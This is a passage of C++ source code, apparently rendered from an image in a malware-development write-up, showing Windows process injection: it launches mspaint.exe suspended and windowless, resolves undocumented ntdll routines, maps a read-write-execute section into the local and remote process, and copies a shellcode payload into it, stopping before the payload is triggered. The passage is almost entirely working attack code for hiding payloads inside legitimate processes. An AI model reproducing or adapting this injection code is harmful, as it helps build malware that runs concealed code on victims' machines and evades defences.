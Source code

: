 ```cpp
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { (DWORD) s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = (pZwCreateSection)(GetProcAddress(ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = (pNtMapViewOfSection)(GetProcAddress(ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = (pZwUnmapViewOfSection)(GetProcAddress(ntdll, "ZwUnmapViewOfSection"));
  pZwQueueApcThread myZwQueueApcThread = (pZwQueueApcThread)GetProcAddress(ntdll, "ZwQueueApcThread");
  pZwSetInformationThread myZwSetInformationThread = (pZwSetInformationThread)GetProcAddress(ntdll, "ZwSetInformationThread");
  pZwClose myZwClose = (pZwClose)GetProcAddress(ntdll, "ZwClose");
  
  // create process as suspended
  if (!CreateProcessA(NULL, (LPSTR) "C:\\windows\\system32\\mspaint.exe", NULL, NULL, NULL, 
      CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };
  
  myZwCreateSection(&sh, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, &sectionS, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);
 
  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

```
